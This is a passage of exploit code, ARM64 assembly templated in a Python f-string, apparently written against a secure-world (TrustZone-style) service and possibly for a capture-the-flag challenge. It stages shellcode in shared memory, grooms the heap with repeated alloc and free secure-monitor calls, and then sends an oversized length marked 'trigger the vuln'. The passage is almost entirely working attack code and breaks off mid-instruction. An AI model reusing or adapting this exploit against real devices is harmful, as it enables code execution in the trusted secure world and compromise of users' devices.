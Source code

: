 ```python
        cmp x9, #32
        bne loop

 
    movk x10, #{((WORLD_SHARED_MEM_VA)>>16)&0xffff}, lsl #16
    movk x10, #{(WORLD_SHARED_MEM_VA)&0xffff}, lsl #0

    movz x9, #{((WORLD_SHARED_MEM_PA)>>48)&0xffff}, lsl #48
    movk x9, #{((WORLD_SHARED_MEM_PA)>>32)&0xffff}, lsl #32
    movk x9, #{((WORLD_SHARED_MEM_PA)>>16)&0xffff}, lsl #16
    movk x9, #{(WORLD_SHARED_MEM_PA)&0xffff}, lsl #0
    movz x20, #{((SEL0_shellcode_src)>>48)&0xffff}, lsl #48
    movk x20, #{((SEL0_shellcode_src)>>32)&0xffff}, lsl #32
    movk x20, #{((SEL0_shellcode_src)>>16)&0xffff}, lsl #16
    movk x20, #{(SEL0_shellcode_src)&0xffff}, lsl #0
    add x21, x9, #0xc // shellcode_dst, TCI buf payload


    mov x25, #0
    alloc_loop:
        // alloc(i, 0x20, b'')
        mov w2, #3
        str w2, [x9] // cmd
        mov w2, w25
        str w2, [x9, #4] // idx
        movz w2, #0x0000, lsl 16
        movk w2, #0x20, lsl 0
        str w2, [x9, #8] // sz
        movz x0, #0x8300, lsl 16          
        movk x0, #0x06, lsl 0
        mov x1, x10
        smc #0x1337
        add x25, x25, #1
        cmp x25, #{3}
        bne alloc_loop
    mov x25, #2
    free_loop:
        // free 2, 1, 0
        mov w2, #3
        str w2, [x9] // cmd
        mov w2, w25
        str w2, [x9, #4] // idx
        movz w2, #0x0000, lsl 16
        movk w2, #0x40, lsl 0
        str w2, [x9, #8] // sz
        movz x0, #0x8300, lsl 16          
        movk x0, #0x06, lsl 0
        mov x1, x10
        smc #0x1337
        cmp x25, #{0}
        sub x25, x25, #1
        bne free_loop

    //trigger the vuln
    mov w2, #3
    str w2, [x9] // cmd
    mov w2, #0
    str w2, [x9, #4] // idx
    movz w2, #0xffff, lsl 16
    movk w2, #0xffff, lsl 0
    str w2, [x9, #8] // sz
    movz x22, #{((TCI_Data_addr)>>48)&0xffff}, lsl #48
    movk x22, #{((TCI_Data_addr)>>32)&0xffff}, lsl #32
```